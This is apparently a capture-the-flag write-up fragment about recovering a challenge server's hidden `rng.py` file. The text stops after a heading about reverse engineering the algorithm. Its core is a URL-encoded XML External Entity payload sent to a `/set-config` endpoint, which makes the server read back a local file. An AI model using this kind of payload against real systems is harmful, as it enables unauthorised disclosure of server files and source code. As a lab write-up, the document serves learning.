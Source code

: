 # get `rng.py`

in [flag0](../flag0/README.md) we already got `main.py`, which references:
```python
from rng import *
# .....
	cur = next(26)
```

since python's internal PRNG is called `random`, not `rng.next`, i guessed this to be in a `rng.py`, and it could be accessed with exactly the same way as `main.py`:
```
/set-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22rng.py%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E
```

# reverse engineer algo

